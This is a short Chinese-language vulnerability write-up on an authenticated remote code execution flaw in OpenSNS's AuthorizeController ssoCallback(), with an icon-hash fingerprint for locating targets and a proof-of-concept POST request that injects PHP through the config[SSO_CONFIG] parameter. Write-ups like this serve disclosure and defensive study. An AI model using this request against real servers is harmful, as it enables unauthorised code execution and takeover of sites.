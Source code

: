 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![img](/assets/PeiQi-Wiki/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![img](/assets/PeiQi-Wiki/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

构造请求包

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](/assets/PeiQi-Wiki/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)


